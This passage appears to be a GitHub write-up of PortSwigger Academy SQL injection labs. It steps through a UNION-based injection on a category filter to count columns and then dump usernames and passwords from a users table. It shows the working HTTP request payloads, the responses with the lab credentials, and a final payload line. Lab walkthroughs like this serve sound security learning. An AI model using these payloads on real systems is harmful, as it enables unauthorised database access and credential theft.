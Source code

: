 1. determine how many coloumns are in the current table:
```
GET /filter?category=Lifestyle'+UNION+SELECT+NULL,+NULL+FROM+information_schema.tables--+ HTTP/1.1
```
response:
```
HTTP/1.1 200 OK
```

2. determine how many of them support stroing values:
```
GET /filter?category=Lifestyle'+UNION+SELECT+'test',+'test'+FROM+information_schema.tables--+ HTTP/1.1
```
```
HTTP/1.1 200 OK
```
we see both fields can be used for information exfiltration

3. exfiltrate usernames and passwords:
> GET /filter?category='+UNION+SELECT+username,+password+FROM+users--+ HTTP/1.1
response:
```htm
HTTP/1.1 200 OK
...
    <th>wiener</th>
    <td>wbc0yljy5p3l3hrlsgyc</td>
</tr>
<tr>
    <th>administrator</th>
    <td>rwrir8nv1ytk1p6psz79</td>
</tr>
<tr>
    <th>carlos</th>
    <td>illfmtdl1swjebjbc146</td>
```
 4. login to administrator account to solve the lab.


 **Final PayLoad**
    '+UNION+SELECT+username,password+FROM+users--

# **SQLi Cheet-Sheet**
https://portswigger.net/web-security/sql-injection/cheat-sheet

# ***4. SQL injection UNION attack, retrieving multiple values in a single column***
https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column

The database contains a different table called users, with columns called username and password.

To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 
